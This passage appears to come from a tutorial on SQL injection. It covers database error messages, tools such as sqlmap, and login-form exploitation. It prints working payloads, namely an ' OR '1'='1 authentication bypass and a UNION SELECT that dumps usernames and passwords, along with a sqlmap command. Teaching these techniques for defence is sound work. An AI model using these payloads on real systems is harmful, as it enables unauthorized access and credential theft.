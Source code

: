 ### Common Error Messages and Their Meanings

Understanding error messages can help identify the database type and the nature of the vulnerability:

- **MySQL Errors**:
  - `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version...`
- **MSSQL Errors**:
  - `Unclosed quotation mark after the character string...`
- **Oracle Errors**:
  - `ORA-01756: quoted string not properly terminated`

### Crafting Malicious Payloads

1. **Basic Authentication Bypass**:
   ```sql
   ' OR '1'='1
   ```
   Allows an attacker to bypass login screens without knowing valid credentials.

2. **Advanced Data Extraction**:
   ```sql
   ' UNION SELECT null, group_concat(username, ':', password) FROM users; --
   ```

### Using SQLMap and Other Tools

- **SQLMap**: A powerful automated tool that supports various databases and techniques.
  ```bash
  sqlmap -u "http://example.com/page?id=1" --dbs
  ```
- **Havij**: A GUI-based tool for automated SQL Injection.
- **SQLNinja**: Focuses on SQL Injection on Microsoft SQL Server.
- **jSQL Injection**: A Java-based tool supporting multiple injection techniques.

## Real-World Scenarios and Examples

### Exploiting Login Forms

A simple login form may be exploited using `' OR '1'='1` to bypass authentication:

- **Original Query**:
  ```sql
  SELECT * FROM users WHERE username='$user' AND password='$pass';
  ```
- **Injected Query**:
  ```sql
  SELECT * FROM users WHERE username='' OR '1'='1' AND password='';
  ```

### Bypassing Authentication

Use UNION SELECT or other SQL Injection methods to gain access without valid credentials.
